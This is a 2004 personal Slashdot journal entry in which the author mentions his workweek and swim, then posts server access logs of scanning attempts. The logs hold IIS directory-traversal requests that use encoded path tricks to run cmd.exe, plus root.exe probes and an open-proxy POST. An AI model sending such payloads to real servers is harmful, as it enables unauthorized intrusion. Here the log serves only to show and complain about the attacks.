 ```yaml
---
title: "life continues"
date: 2004-09-10
slashdot_url: https://slashdot.org/journal/83324/life-continues
---
```


<p>Worked many hours this week, trying to get new work web site finished.</p>
<p>So this evening I cycled to the pool and did an hours training. I'm now tired and chlorinated, but very relaxed.<br>---<br>My web server went off on one at 2am the other night (just when I was thinking of going to sleep), thrashing its hdd. Think someone was trying to hack into it with a buffer overflow. Here's the log:</p>
<blockquote>
<div><p> <tt>4.227.111.174 - - [09/Sep/2004:02:22:01 +0100] "POST http://4.227.111.174:25/ HTTP/1.1" 200 480 "-" "-"</tt></p></div> </blockquote>
<p>Sods.</p>
<p>Looking at my logs, the server was subject to a few attempts within hours of it coming online.<br>Much more than my hosted site. Guess it's people running <a href="http://www.insecure.org/">nmap</a> against adsl dial up ip ranges and getting all excited by the prospect of an open port 80.</p>
<p>Here's a classic example:</p>
<blockquote>
<div><p> <tt>81.70.101.40 - - [05/Sep/2004:17:37:46 +0100] "GET<nobr> </nobr>/.hash=eb649e3d22cdb034d91b64d4c11215f83a7e2fda HTTP/1.1" 404 372 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:26 +0100] "GET<nobr> </nobr>/scripts/root.exe?/c+dir HTTP/1.0" 404 342 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:28 +0100] "GET<nobr> </nobr>/MSADC/root.exe?/c+dir HTTP/1.0" 404 340 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:28 +0100] "GET<nobr> </nobr>/c/winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 350 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:28 +0100] "GET<nobr> </nobr>/d/winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 350 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:28 +0100] "GET<nobr> </nobr>/scripts/..%255c../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 364 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:28 +0100] "GET<nobr> </nobr>/_vti_bin/..%255c../..%255c../..%255c../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 381 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:28 +0100] "GET<nobr> </nobr>/_mem_bin/..%255c../..%255c../..%255c../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 381 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:28 +0100] "GET<nobr> </nobr>/msadc/..%255c../..%255c../..%255c/..%c1%1c../..%c1%1c../..%c1%1c../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 397 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:29 +0100] "GET<nobr> </nobr>/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 363 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:29 +0100] "GET<nobr> </nobr>/scripts/..%c0%2f../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 363 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:29 +0100] "GET<nobr> </nobr>/scripts/..%c0%af../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 363 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:29 +0100] "GET<nobr> </nobr>/scripts/..%c1%9c../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 363 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:29 +0100] "GET<nobr> </nobr>/scripts/..%%35%63../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 400 354 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:29 +0100] "GET<nobr> </nobr>/scripts/..%%35c../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 400 354 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:29 +0100] "GET<nobr> </nobr>/scripts/..%25%35%63../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 364 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:29 +0100] "GET<nobr> </nobr>/scripts/..%252f../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 364 "-" "-"<br>81.215.120.25 - - [07/Sep/2004:12:59:20 +0100] "GET<nobr> </nobr>/.hash=cf770b6f55e15660d70f00542bd58efeb7a8487f HTTP/1.1" 404 372 "-" "-"</tt></p></div> </blockquote>
<p>--<br>By the way, if you think nmap is very uncool to know about, may I direct you to the news article on nmap's site which shows Trinity actually doing a real hacking attack in the film Matrix Reloaded<br><a href="http://www.insecure.org/">http://www.insecure.org/</a></p>

